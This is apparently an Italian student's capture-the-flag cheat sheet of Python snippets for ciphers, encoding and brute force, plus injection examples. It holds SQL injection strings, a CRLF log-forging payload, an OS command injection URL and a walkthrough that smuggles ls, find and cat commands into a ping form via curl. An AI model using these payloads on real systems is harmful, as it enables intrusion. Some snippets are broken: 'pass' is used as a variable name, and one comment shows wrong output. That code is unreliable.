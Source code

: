 # Funzioni a caso

### Shifting di una stringa "abc" -> "cde"

```python
input = 'abc'
key = 2
output = ''

for c in input:
    output += chr(ord(c) + key)
print(output)
```

-------------------------

### Generazione stringa random

```python
import random
import string


vocabulary = list(string.ascii_letters) + list(string.digits)
pass = ""
size = 10

for i in range(size):
    random.shuffle(vocabulary)
    pass += vocabulary[0]
print(f"Password: {password}")
```

```python
import random
import string

letters = string.ascii_lowercase

def get_random_string(length):
    result_str = ''.join(random.choice(letters) for i in range(length))
    return result_str

print(get_random_string(8))
```

-------------------------

### Prendere tutti caratteri maiuscoli da file

```python
file1 = open('input.txt', 'r')
lines = file1.readlines()

out = ""
for linea in lines:
    linea = linea.strip()
    for char in linea:
        if ord(char)>64 and ord(char)<=64+32:
            out += char

print(out)
```

-------------------------

### Decodifica da base64 a stringa

```python
import base64
 
b64 = "fYZ7ipGIjFtsXpNLbHdPbXdaam1PS1c5lQ=="
bytes = base64.b64decode(b64)
stringa = bytes.decode("UTF-8")
```

-------------------------

### Bruteforce Cesare da Base64

```python
import base64
 
b64 = "INSERIRE QUI IL BASE64=="
bytes = base64.b64decode(b64)

for i in range (0, 256):
    for byte in bytes:
        print(chr((byte+i)%256), end="")
    print(" ")
```

--------------------

### Decodifica cifrario di Vigenere
<https://www.dcode.fr/vigenere-cipher>

--------------------

### Decodifica cifrario a sostituzione (Substitution)
<https://www.guballa.de/substitution-solver>

--------------------

### Sito per md5, sha1, sha256 ecc...
<https://crackstation.net/>

<https://www.tunnelsup.com/hash-analyzer/>

--------------------

### SQL Injection

```
' OR 1='1
' or 1=1--
```

------------------

### CRLF Attack

```
if an attacker can execute the CRLF attack, he can fake the log content
/index.php?page=home& %0d%0a 127.0.0.1 - 08:15 - /index.php?page=home&restricredredactio=edi
```

------------------

### OS Command Injection Attack

```
http://example.com/ping.php?address=8.8.8.8 %26ls
Note that 26 -> &
```

--------------

### XOR ripetuto con LEN(S1) > LEN(S2)

```python
import string

alph = list(string.ascii_uppercase)
f = open("encrypted", "r").readline()

def customXOR(text, key):
    out = ""
    for i in range(0, len(text)):
        out += (chr( ord(text[i]) ^ ord(key[i%len(key)])))
    return out
                 
for a in alph:
    for b in alph:
        key = a+b
        if "spritz" in customXOR(f, key) : print(customXOR(f, key))
```

------------------------

###  Rimpiazzo caratteri in stringhe

```python
string = "Palle"
new_string = string.replace("e", "a") 
  
print(new_string)   #STAMPA: "Palla"
```

------------------------

### String Interpolation

```python
'%s is smaller than %s' % ('one', 'two')

print("Mr. %s, the total is %.2f." % ("Jekyll", 15.53))
'Mr. Jekyll, the total is 15.33.'

>>> place = "New York"
>>> print("Welcome to %s!" % place)
Welcome to New York!

palle = {"allowed_flag":"sos", "palle1":"palle2"}
str = "flag: %(allowed_flag)s" % palle
print(str)     #stampa "flag: sos"
```

------------------------

### CRLF Injection

<b>CR</b> = Carriage Return (\r) → Codifica HEX: 0x0d, <b>Codifica URL: %0d</b>

<b>LF</b> = Line Feed (\n) → Codifica HEX: 0x0a, <b>Codifica URL: %0a</b>


La combinazione di CRLF è l'effetto del tasto ENTER.

Torna molto utile la codifica URL di CR ed LF per esempio per le Injection.

<br>
Esempio di esercizio:

```html
<html>
<head><title>Can I haz Smart Cat ???</title></head>
<body>
  <h3> Smart Cat debugging interface </h3>

  <form method="post" action="index.cgi">
    <p>Ping destination: <input type="text" name="dest"/></p>
  </form>
  <p>Ping results:</p><br/>
  <pre></pre>
</body>
</html>
```
In cui si richiedeva di trovare la flag a partire da questa pagina dove era possibile effettuare "solamente" il ping. Utilizzare spazi, &&, || e altri comandi di altri tipo risulta inutile in quanto il codice ne previene l'uso.

Se si visualizza il pacchetto POST, nel body si trova dest=indirizzo ip, dove dest sta a identificare l'argomento presente nell'inputbox. Sfruttando il comando curl, possiamo ri-effettuare il comando, scrivendo dest=ipaddr<b>%0a</b>ls. 
```sh
#ls tramite Line feed
curl -XPOST -d 'dest=0.0.0.0%0als' 'http://localhost:8090/'
```
Una volta inviato, da terminale appare l'effetto del ping e il ritorno di ls (in questo caso consiste di un file python e della cartella there). Siccome non sono accettati spazi di alcuni tipo, l'unico modo è utilizzare il comando <b>find</b> per analizzare tutte le sottocartelle, trovando così la posizione della flag.
```sh
#find tramite Line feed
curl -XPOST -d 'dest=0.0.0.0%0afind' 'http://localhost:8090/'
```

Infine, per utilizzare il cat senza spazi, utilizziamo il comando col redirect, ovvero
```sh
cat<path/to/flag.txt

#Caso particolare dell'esercizio
curl -XPOST -d 'dest=0.0.0.0%0acat<./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously/though/here/is/the/flag' 'http://localhost:8090/'
```

------------------------

### Cifrario a sostituzione 2 figo

```python
with open("ciphertext.txt", "r") as ciphertext_file:
    ciphertext = ciphertext_file.read().lower()

trans = str.maketrans(
    "abcdefghijklmnopqrstuvwxyz",
    "IMZOPKSTEBWGNRVL_UJAYHF_DC",
)

print(ciphertext.translate(trans))
```


